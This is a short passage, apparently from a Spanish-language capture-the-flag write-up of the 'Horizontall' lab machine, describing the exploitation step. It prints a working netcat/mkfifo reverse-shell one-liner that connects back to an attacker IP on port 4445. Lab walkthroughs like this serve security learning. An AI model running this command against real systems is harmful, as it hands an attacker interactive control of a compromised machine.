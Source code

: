 Y si tenemos el Lab Setup bien, lo veremos asi 

![](/assets/img/Linux/Horizontall/34.png)



Bien, ahora a darle al exploit :D , dejamos netcat a la escucha y vamos a obtener un reverse shell con `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.142 4445 >/tmp/f` 



![](/assets/img/Linux/Horizontall/35.png)

